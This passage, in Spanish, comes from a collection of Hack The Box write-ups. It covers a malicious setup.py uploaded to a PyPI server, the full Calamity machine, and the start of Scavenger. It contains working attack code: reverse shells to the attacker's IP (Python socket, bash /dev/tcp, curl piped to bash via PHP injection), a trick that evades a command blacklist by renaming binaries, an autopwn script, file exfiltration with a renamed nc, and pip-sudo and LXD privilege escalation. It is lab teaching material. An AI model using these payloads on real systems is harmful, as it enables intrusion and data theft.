Como el servicio pypi es un server que tiene conectividad con el exterior, podemos seguir lo siguientes pasos en la maquina de atacante.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ pypi}
\BuiltInTok{cd}\NormalTok{ !$}
\FunctionTok{mkdir}\NormalTok{ pwned}
\BuiltInTok{cd}\NormalTok{ !$}
\FunctionTok{touch}\NormalTok{ __init__.py}
\FunctionTok{touch}\NormalTok{ setup.py}
\end{Highlighting}
\end{Shaded}

El fichero \texttt{\_\_init\_\_.py} se queda vacio y el contenido del \texttt{setup.py} seria el siguiente.

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ setuptools}
\ImportTok{import}\NormalTok{ socket,subprocess,os}

\NormalTok{s}\OperatorTok{=}\NormalTok{socket.socket(socket.AF_INET,socket.SOCK_STREAM)}
\NormalTok{s.}\ExtensionTok{connect}\NormalTok{((}\StringTok{"10.10.14.20"}\NormalTok{,}\DecValTok{443}\NormalTok{))}
\NormalTok{os.dup2(s.fileno(),}\DecValTok{0}\NormalTok{) }
\NormalTok{os.dup2(s.fileno(),}\DecValTok{1}\NormalTok{)}
\NormalTok{os.dup2(s.fileno(),}\DecValTok{2}\NormalTok{)}
\NormalTok{p}\OperatorTok{=}\NormalTok{subprocess.call([}\StringTok{"/bin/sh"}\NormalTok{,}\StringTok{"-i"}\NormalTok{])}

\NormalTok{setuptools.setup(}
\NormalTok{    name}\OperatorTok{=}\StringTok{"example-pkg-YOUR-USERNAME-HERE"}\NormalTok{,}
\NormalTok{    version}\OperatorTok{=}\StringTok{"0.0.1"}\NormalTok{,}
\NormalTok{    author}\OperatorTok{=}\StringTok{"Example Author"}\NormalTok{,}
\NormalTok{    author_email}\OperatorTok{=}\StringTok{"author@example.com"}\NormalTok{,}
\NormalTok{    description}\OperatorTok{=}\StringTok{"A small example package"}\NormalTok{,}
\NormalTok{    long_description_content_type}\OperatorTok{=}\StringTok{"text/markdown"}\NormalTok{,}
\NormalTok{    url}\OperatorTok{=}\StringTok{"https://github.com/pypa/sampleproject"}\NormalTok{,}
\NormalTok{    classifiers}\OperatorTok{=}\NormalTok{[}
        \StringTok{"Programming Language :: Python :: 3"}\NormalTok{,}
        \StringTok{"License :: OSI Approved :: MIT License"}\NormalTok{,}
        \StringTok{"Operating System :: OS Independent"}\NormalTok{,}
\NormalTok{    ],}
\NormalTok{    python_requires}\OperatorTok{=}\StringTok{">=3.6"}\NormalTok{,}
\NormalTok{)}
\end{Highlighting}
\end{Shaded}

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de \textbf{monkey pentester} y la hemos retocado para que vaya en el fichero \texttt{setup.py}.

Configuramos el equipo para poder enviar el paquete al repositorio victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{rm}\NormalTok{ ~/.pypirc}
\ExtensionTok{vi}\NormalTok{ ~/.pypirc}
\end{Highlighting}
\end{Shaded}

El contenido del fichero \texttt{.pypirc} seria

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{distutils}\NormalTok{]}
\ExtensionTok{index-servers}\NormalTok{ = remote}

\NormalTok{[}\ExtensionTok{remote}\NormalTok{]}
\ExtensionTok{repository}\NormalTok{ = http://pypi.sneakycorp.htb:8080}
\ExtensionTok{username}\NormalTok{ = pypi}
\ExtensionTok{password}\NormalTok{ = soufianeelhaoui}
\end{Highlighting}
\end{Shaded}

Ahora podemos enviarlo

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos el paquete al pypi server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ setup.py sdist upload -r remote}
\end{Highlighting}
\end{Shaded}
\item
  Tenemos una shell pero primero nos a ejecutado desde nuestro propio equipo

  \begin{itemize}
  \item
    no ponemos una vez mas en escucha al puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    en el primero shell le damos a exit
  \end{itemize}
\end{enumerate}

Y ya esta

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{Law}
\end{Highlighting}
\end{Shaded}

Ya le podemos hacer un nuevo tratamiento de la TTY.

\hypertarget{escalada-de-privilegios-3}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-3}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporcionar contraseña.

Miramos en \href{https://gtfobins.github.io/gtfobins/pip/\#sudo}{GTFOBINS}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{TF=$(}\FunctionTok{mktemp}\NormalTok{ -d}\VariableTok{)}
\BuiltInTok{echo} \StringTok{"import os; os.execl('/bin/sh', 'sh', '-c', 'sh <}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{ >}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{ 2>}\VariableTok{$(}\ExtensionTok{tty}\VariableTok{)}\StringTok{')"} \OperatorTok{>} \VariableTok{$TF}\NormalTok{/setup.py}
\ExtensionTok{pip3}\NormalTok{ install }\VariableTok{$TF}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{calamity}{%
\chapter*{Calamity}\label{calamity}}
\addcontentsline{toc}{chapter}{Calamity}

\hypertarget{introduccion-5}{%
\section*{Introduccion}\label{introduccion-5}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 28/07/2021 se llama Calamity
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=sREANcb8H1Q}{\includegraphics{https://img.youtube.com/vi/sREANcb8H1Q/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-5}{%
\section*{Enumeracion}\label{enumeracion-5}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-5}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-5}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-5}{%
\subsubsection*{Ping}\label{ping-5}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.27}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux.
Recuerda que tratandose de ttl 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-5}{%
\subsubsection*{Nmap}\label{nmap-5}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.27 -oG allports}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
80 & http & Analizis de la web y Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-la-web}{%
\subsection*{Analizando la web}\label{analizando-la-web}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-3}{%
\subsubsection*{Whatweb}\label{whatweb-3}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.197}
\end{Highlighting}
\end{Shaded}

\hypertarget{http-enum}{%
\subsubsection*{http-enum}\label{http-enum}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.27 -oN webScan}
\end{Highlighting}
\end{Shaded}

Ya nos detecta un \texttt{/admin.php} y un directorio \texttt{/uploads/}

\hypertarget{checkear-la-web-del-puerto-80}{%
\subsubsection*{Checkear la web del puerto 80}\label{checkear-la-web-del-puerto-80}}
\addcontentsline{toc}{subsubsection}{Checkear la web del puerto 80}

Abrimos la web y vemos cosas:

\begin{itemize}
\tightlist
\item
  El wappalizer no nos dice nada
\item
  parece que todavia la web esta en fase de desarollo
\item
  el directorio \texttt{/uploads/} muestra una capacidad de directory listing pero no se ve gran cosa
\item
  el \texttt{/admin.php} nos muestra un login.
\item
  haciendo un \texttt{Ctrl-U} no muestra una contraseña en un comentario ;)
\end{itemize}

\hypertarget{evaluacion-de-vulnerabilidades-5}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-5}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{chequeamos-las-vulnerabilidades-de-la-pagina-admin.php}{%
\subsection*{Chequeamos las vulnerabilidades de la pagina admin.php}\label{chequeamos-las-vulnerabilidades-de-la-pagina-admin.php}}
\addcontentsline{toc}{subsection}{Chequeamos las vulnerabilidades de la pagina admin.php}

Ya con el usuario admin y la contraseña encontrada nos podemos logear.

Vemos un input donde podemos poner codigo \textbf{HTML}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Hola}
\OperatorTok{<}\ExtensionTok{h1}\OperatorTok{>}\NormalTok{Hola}\OperatorTok{<}\NormalTok{/h1}\OperatorTok{>}
\OperatorTok{<}\ExtensionTok{marquee}\OperatorTok{>}\NormalTok{Hola}\OperatorTok{<}\NormalTok{/marquee}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Funciona\ldots{} Intentamos ponerle codigo \textbf{PHP}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"whoami"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

y tambien funciona\ldots{}

Aqui decidimos crear una reverse shell para conectarnos al servidor.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-5}{%
\section*{Explotacion de vulnerabilidad \& Ganando acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-5}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando acceso}

\hypertarget{crear-una-reverse-shell-con-una-pagina-html}{%
\subsection*{Crear una reverse shell con una pagina html}\label{crear-una-reverse-shell-con-una-pagina-html}}
\addcontentsline{toc}{subsection}{Crear una reverse shell con una pagina html}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un index.html

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.28/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servicio http por el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la web, le damos un curl a nuestra maquina

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Escuchamos por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Ejecutamos la reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28 | bash"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

La coneccion se entabla pero el servidor nos expulsa directamente.

\hypertarget{creamos-una-fakeshell}{%
\subsection*{Creamos una FakeShell}\label{creamos-una-fakeshell}}
\addcontentsline{toc}{subsection}{Creamos una FakeShell}

En el directorio exploits creamos un fichero \texttt{fakeShell.sh} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n\textbackslash{}n[!] Saliendo...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{# Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\CommentTok{# Variables globales}
\VariableTok{main_url=}\StringTok{"http://10.10.10.27/admin.php"}

\KeywordTok{while} \FunctionTok{true}\KeywordTok{;} \KeywordTok{do}
    \BuiltInTok{echo}\NormalTok{ -n }\StringTok{"[~] "} \KeywordTok{&&} \BuiltInTok{read}\NormalTok{ -r }\VariableTok{command}
    \BuiltInTok{echo}\KeywordTok{;} \ExtensionTok{curl}\NormalTok{ -s -G }\VariableTok{$main_url}\NormalTok{ --data-urlencode }\StringTok{"html=<?php system(}\DataTypeTok{\textbackslash{}"}\VariableTok{$command}\DataTypeTok{\textbackslash{}"}\StringTok{); ?>"}\NormalTok{ --cookie }\StringTok{"adminpowa=noonecares"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"\textbackslash{}/body"}\NormalTok{ -A 500 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"\textbackslash{}/body"}\KeywordTok{;} \BuiltInTok{echo}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19
\end{quote}

Tambien se podria utilizar la heramienta creada por s4vitar \href{https://github.com/s4vitar/ttyoverhttp}{ttyoverhttp}

\hypertarget{analizando-el-servidor}{%
\subsection*{Analizando el servidor}\label{analizando-el-servidor}}
\addcontentsline{toc}{subsection}{Analizando el servidor}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\ExtensionTok{ifconfig}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l /home}
\FunctionTok{ls}\NormalTok{ -l /home/xalvas}
\FunctionTok{cat}\NormalTok{ /home/xalvas/user.txt}
\end{Highlighting}
\end{Shaded}

Encontramos el usuario \textbf{xalvas} y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el sistema nos expulsa cuando lo hacemos?

El comando \texttt{ls\ -l\ /home/xalvas} nos muestra ficheros. En el fichero \texttt{intrusions} vemos lo siguiente

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /home/xalvas/intrusions}
\end{Highlighting}
\end{Shaded}

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/calamity-intrusions} \caption{fichero intrusions}\label{fig:unnamed-chunk-11}
\end{figure}

Vemos que el comando \texttt{nc} esta BlackListeado y que logea el Proccess Kill en este fichero. El problema de esto es que se puede
que los comandos BlackListeados se controlan con los nombres mismo (no permite \texttt{nc,\ python,\ bash}). Pero que pasa si copiamos el
binario bash y que le ponemos un nombre diferente.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443 en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ /bin/bash /dev/shm/s4vitar}
\FunctionTok{ls}\NormalTok{ /dev/shm/s4vitar}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/TCP/10.10.14.20/443} \OperatorTok{0>&1}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{"/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"}
\ExtensionTok{/dev/shm/s4vitar}\NormalTok{ -c }\StringTok{'/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

\hypertarget{tratamiento-de-la-tty-5}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-5}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{numero filas}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{numero columnas}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{creacion-del-autopwn-en-python}{%
\subsection*{Creacion del autopwn en python}\label{creacion-del-autopwn-en-python}}
\addcontentsline{toc}{subsection}{Creacion del autopwn en python}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ threading}
\ImportTok{import}\NormalTok{ time}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{main_url }\OperatorTok{=} \StringTok{"http://10.10.10.27/admin.php"}
\NormalTok{burp }\OperatorTok{=}\NormalTok{ \{}\StringTok{'http'}\NormalTok{: }\StringTok{'http://127.0.0.1:8080'}\NormalTok{\}}
\NormalTok{lport }\OperatorTok{=} \DecValTok{443}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    headers }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'Cookie'}\NormalTok{: }\StringTok{'adminpowa=noonecares'}
\NormalTok{    \}}

\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{cp%20/bin/bash%20/dev/shm/s4vitar}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{chmod%20+x%20/dev/shm/s4vitar}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}
\NormalTok{    r }\OperatorTok{=}\NormalTok{ requests.get(main_url }\OperatorTok{+} \StringTok{"?html=<?php}\SpecialCharTok{%20s}\StringTok{ystem(}\CharTok{\textbackslash{}"}\StringTok{/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>}\SpecialCharTok\StringTok{20/dev/tcp/10.10.14.20/443%200>%261'}\CharTok{\textbackslash{}"}\StringTok{);%20?>"}\NormalTok{, headers}\OperatorTok{=}\NormalTok{headers)}

    \BuiltInTok{print}\NormalTok{(r.text)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

    \ControlFlowTok{try}\NormalTok{:}
\NormalTok{        threading.Thread(target}\OperatorTok{=}\NormalTok{makeRequest,args}\OperatorTok{=}\NormalTok{()).start()}
    \ControlFlowTok{except} \PreprocessorTok{Exception} \ImportTok{as}\NormalTok{ e:}
\NormalTok{        log.error(}\BuiltInTok{str}\NormalTok{(e))}

\NormalTok{    shell }\OperatorTok{=}\NormalTok{ listen(lport, timeout}\OperatorTok{=}\DecValTok{10}\NormalTok{).wait_for_connection()}

\NormalTok{    shell.interactive()}
\end{Highlighting}
\end{Shaded}

Ya lo podemos lanzar con el comando \texttt{python3\ autopwn.py}

\begin{quote}
{[} ! {]} Notas las explicaciones paso a paso del autopwn se pueden ver en el video al minuto 1:06:21
\end{quote}

\hypertarget{investigamos-la-maquina-3}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-3}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

Ya hemos visto una lista de archivos en el repertorio de xalvas y uno es un fichero \texttt{.wav}. Nos lo enviamos
a nuestra maquina de atacante.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ recov.wav}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ /bin/nc /dev/shm/transfer}
\FunctionTok{chmod}\NormalTok{ +x /dev/shm/transfer}
\ExtensionTok{/dev/shm/transfer}\NormalTok{ 10.10.14.20 443 }\OperatorTok{<}\NormalTok{ recov.wav}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Hay otros ficheros de tipo \texttt{.wav}, usando la misma tecnica nos lo enviamos tambien.
Chequeamos que los ficheros no sa hayan comprometido durante la tansferencia con \texttt{md5sum}. Los ficheros \texttt{.wav} son ficheros
de tipo audio y se pueden escuchar con el comando \texttt{play\ recov.wav}

No os asusteis con la musiquita ;)

Escuchando los otros ficheros parece que el fichero \texttt{rick.wav} sea la misma cancion y esto es raro. Si le hacemos un \texttt{md5sum\ recov.wav\ rick.wav},
vemos que la cancion es la misma pero el \textbf{md5sum} no. Quiere decir que la integridad de la data de uno de estos ficheros a sido manipulada.

\hypertarget{reto-de-steganografia-con-audacity}{%
\subsection*{Reto de steganografia con Audacity}\label{reto-de-steganografia-con-audacity}}
\addcontentsline{toc}{subsection}{Reto de steganografia con Audacity}

\textbf{Audacity} es una heramienta de audio que se puede instalar con \texttt{apt\ install\ audacity}. Lo abrimos y cargamos los dos ficheros.
Si nos dan 2 audios que parecen se los mismos pero hemos visto con el \textbf{md5sum} que no son iguales, Una cosa que se puede hacer es
lanzar un audio de manera normal y al mismo tiempo con el segundo audio, invertir la onda del audio. Si hacemos esto y que los dos ficheros
son ciertamente iguales, no tendriamos que escuchar nada. Lo unico, en este caso que se tendria que escuchar seria las diferencias ente
los dos audios.

\begin{quote}
{[} ! {]} Notas para ver como invertir las ondas de un audio, podeis mirar el video al minuto 1:31:00
\end{quote}

Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ xalvas}
\ExtensionTok{Password}\NormalTok{: }\OperatorTok{<}\NormalTok{la contraseña}\OperatorTok{>}
\FunctionTok{whoami}
\CommentTok{#Output }
\ExtensionTok{xalvas}
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegios-4}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-4}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina-1}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-1}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

En este punto vemos que el usuario xalvas esta en el grupo \textbf{lxd} y ya tenemos la posibilidad de escalar privilegios con esto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ lxd}
\ExtensionTok{searchsploit}\NormalTok{ -x 46978}
\end{Highlighting}
\end{Shaded}

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\end{Highlighting}
\end{Shaded}

Seguimos los pasos del exploit

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine}
\FunctionTok{chmod}\NormalTok{ +x build-alpine}
\ExtensionTok{./build-alpine} \CommentTok{# --> para maquinas x64}
\ExtensionTok{./build-alpine}\NormalTok{ -a i686 }\CommentTok{# --> para maquinas i686}
\ExtensionTok{searchsploit}\NormalTok{ -m 46978}
\FunctionTok{mv}\NormalTok{ 46978.sh lxd_privesc.sh}
\ExtensionTok{dos2unix}\NormalTok{ lxd_privesc.sh}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz}
\FunctionTok{wget}\NormalTok{ http://10.10.14.20/lxd_privesc.sh}
\FunctionTok{chmod}\NormalTok{ +x lxd_privesc.sh}
\ExtensionTok{./lxd_privesc.sh}\NormalTok{ -f alpine-v3-14-i686-20210728_2134.tar.gz}
\end{Highlighting}
\end{Shaded}
\item
  vemos un error \texttt{error:\ This\ must\ be\ run\ as\ root}. Modificamos el fichero lxd\_privesc.sh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ lxd_privesc.sh}
\end{Highlighting}
\end{Shaded}

  en la function createContainer(), borramos la primera linea:

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# lxc image import $filename --alias alpine && lxd init --auto}
\end{Highlighting}
\end{Shaded}
\item
  Ya estamos root pero en el contenedor. Modificamos la \texttt{/bin/bash} de la maquina

  \begin{itemize}
  \item
    en el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/root}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /bin}
\FunctionTok{chmod}\NormalTok{ 4755 bash}
\BuiltInTok{exit}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

\hypertarget{scavenger}{%
\chapter*{Scavenger}\label{scavenger}}
\addcontentsline{toc}{chapter}{Scavenger}

\hypertarget{introduccion-6}{%
\section*{Introduccion}\label{introduccion-6}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 29/07/2021 se llama Scavenger
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=U5QLCweacCY}{\includegraphics{https://img.youtube.com/vi/U5QLCweacCY/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-6}{%
\section*{Enumeracion}\label{enumeracion-6}}
\addcontentsline{toc}{section}{Enumeracion}

